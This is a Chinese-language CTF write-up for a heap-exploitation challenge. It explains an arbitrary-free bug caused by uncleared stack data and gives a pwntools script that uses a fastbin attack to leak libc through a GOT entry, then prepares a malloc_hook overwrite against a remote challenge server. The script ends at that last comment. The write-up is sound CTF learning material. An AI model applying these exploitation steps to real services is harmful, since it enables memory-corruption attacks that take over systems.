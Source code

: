 ### 2
(~~随机输入，法力无边~~)

直接看源码是看不出任何洞的，所有操作字符串的位置都卡的很好，根本不可能溢出，唯一要说的地方就是，每次edit都会有一块堆内存没被free从而内存泄露（……

随便给了个任意长度的字符串，大概给了`0x233`长度的字符串时候，发现程序SIGSEGV了，gdb跟进去，发现free了一个不存在的地址，这个地址正好是我们输入进去的字符串

原因大概是先修改密码时候，栈上有输入的内容，然后调用editInfo时候，没有清理栈，导致v5在析构的时候free掉了你以前输入的东西

于是我们先利用任意地址free在bss段伪造chunk，然后再利用fastbin attack伪造一个chunk修改T的地址，让其studentNum指向某个got表来泄露地址。有了libc地址就再用fastbin attack修改 malloc_hook为one_gadget即可

```python
#coding:utf-8
from pwn import *

context.log_level = 'debug'
io = remote("202.38.93.241", 10012)
libc = ELF("./libc-2.23.so")
io.sendlineafter("token: ", "")

def lg(name, val):
    log.info(name+" : "+hex(val))

def edit_info(p, passwd, stu_num):
    p.sendlineafter( "choice:", '1')
    p.sendafter( "Your new password: ", passwd)
    p.readuntil( "STUDENT: ")
    res = p.readuntil( "Tell me")
    p.sendafter( "NUMBER(eg: PB19000001), please:", stu_num)
    p.sendlineafter( "CALCULUS grade(0~100):", '100')
    p.sendlineafter( "LINEAR ALGEBRA grade:", '100')
    p.sendlineafter( "MECHANICS grade:", '100')
    p.sendlineafter( "CRYPTOGRAPHY grade:", '100')
    return res

g_username = 0x6032C0
g_passwd = 0x6032E0
g_tmp_stu_num = 0x603380
got_read = 0x602F38


io.sendlineafter( "Username:", "admin")
io.sendlineafter( "Password:", "p455w0rd\x00")

edit_info(io, (p64(0)+p64(0x71)).ljust(0x70, 'a')+p64(0x21)*2+p64(g_passwd+0x10)*2+p64(0x21)+p64(0x21)[:7], 'aaa')
edit_info(io, p64(0)+p64(0x71)+p64(0x603285)*2, 'a'*0x60)

#[*] now bin_0x60 -> 0x603285

p1 = ('a'*11+p64(g_username).ljust(0x20, 'a')+p64(got_read)+p32(0x64)*3).ljust(0x60, 'a')
edit_info(io, p64(got_read)+p32(0x64)*3, p1)

res = edit_info(io, p64(got_read)+p32(0x64)*3, 'bbb')[:6]

libc_addr = u64(res+'\x00\x00')
lg("libc_addr", libc_addr)
libc.address = libc_addr - 0xf7250
lg("libc base", libc.address)


one = libc.address + 0xf1147
# modify malloc_hook
```